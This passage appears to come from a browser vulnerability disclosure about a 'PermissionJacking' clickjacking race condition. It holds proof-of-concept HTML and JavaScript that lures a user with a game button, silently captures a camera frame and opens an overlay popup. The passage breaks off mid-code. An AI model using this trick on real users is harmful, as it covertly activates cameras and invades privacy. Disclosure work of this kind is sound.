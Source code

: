 *(What the user sees during the PermissionJacking attack)*

#### Demonstration Video (Because we are doing a visual effect race condition glitch the screen recorder doesn't show what an actual user sees)

The following video demonstrates this attack in action, resulting in the user's camera being activated without their informed consent.

[Watch the Proof-of-Concept Video Here](https://drive.google.com/file/d/1PaPzRwlPlsCbbp5QIUaXGXg8ITvf6ud2/view?usp=sharing)

#### Proof-of-Concept Code (Not ideal for every screen size)

```html
<body style="color:white;background-color:black">
  <center>
    <br>
    <br>
    <br>
    <br>
    <br>
    <button id=btn style="padding: 10px 20px; background: linear-gradient(90deg, #4CAF50, #45A049); border: none; border-radius: 25px; color: white; font-size: 16px; font-weight: bold; cursor: pointer; box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1); transition: all 0.3s ease; font-size: 50px;">Start the game</button>
    <br>
    <br>
    <br>
    <br>
    <img src="https://i.ytimg.com/vi/cWOkHQXw0JQ/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLCqzdZDkPgmkM1-wTVsdF2LhRxynw">
  </center>
  <script>
    async function captureFrame() {
      const stream = await navigator.mediaDevices.getUserMedia({
        video: true
      });
      const video = document.createElement('video');
      video.style.position = 'absolute'; // Hide the video offscreen
      video.style.top = '-9999px';
      video.playsInline = true; // Required for iOS
      video.srcObject = stream;
      document.body.appendChild(video);
      await video.play();
      const canvas = document.createElement('canvas');
      canvas.width = video.videoWidth;
      canvas.height = video.videoHeight;
      canvas.getContext('2d').drawImage(video, 0, 0);
      document.body.innerHTML = ' < h1 > pwned, here is your picture: < br > ';
      document.body.appendChild(canvas);
      stream.getTracks().forEach(track => track.stop());
      document.body.removeChild(video); // Clean up video
    }
    btn.onclick = () => {
      captureFrame();
      let params = `scrollbars=no,resizable=no,status=no,location=no,toolbar=no,menubar=no,width=${window.innerWidth},height=440,left=100,top=180`;
      setTimeout(() => {
        let win = open('about:blank', 'win', params);
        win.document.write(`
        
```
